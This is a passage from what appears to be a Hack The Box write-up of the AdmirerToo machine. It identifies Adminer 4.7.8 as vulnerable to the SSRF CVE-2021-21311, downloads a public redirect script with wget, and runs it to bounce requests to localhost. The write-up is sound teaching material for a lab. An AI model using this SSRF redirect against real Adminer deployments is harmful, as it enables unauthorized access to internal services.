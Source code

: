 Clicking enter take us inside and we can look around the database:

![admirertoo-adminer](/assets/images/2022-02-27-21-18-52.png)

There's not a lot you can do in here. Looking for an exploit I see this version of Adminer is from December 2020 and there's a few options [here](https://www.cvedetails.com/vulnerability-list/vendor_id-17755/product_id-44183/Adminer-Adminer.html). For 4.7.8 we have [CVE-2021-21311](https://www.cvedetails.com/cve/CVE-2021-21311/) with an exploit [here](https://github.com/vrana/adminer/files/5957311/Adminer.SSRF.pdf).

## SSRF Vulnerability

Reading through the exploit we see there is a SSRF vulnerability with a script [here](https://gist.githubusercontent.com/bpsizemore/227141941c5075d96a34e375c63ae3bd/raw/0f5e8968a3490190d72ccefd40f9c6b693918d71/redirect.py) that we can use to redirect requests. Let's grab it and set it listening:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# wget https://gist.githubusercontent.com/bpsizemore/227141941c5075d96a34e375c63ae3bd/raw/0f5e8968a3490190d72ccefd40f9c6b693918d71/redirect.py
--2022-02-28 22:31:43--  https://gist.githubusercontent.com/bpsizemore/227141941c5075d96a34e375c63ae3bd/raw/0f5e8968a3490190d72ccefd40f9c6b693918d71/redirect.py
Resolving gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.110.133, ...
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1290 (1.3K) [text/plain]
Saving to: ‘redirect.py.1’
redirect.py   100%[==============================================================================>]   1.26K  --.-KB/s    in 0s      
2022-02-28 22:31:43 (139 MB/s) - ‘redirect.py’ saved [1290/1290]

┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1
serving at port 80
```
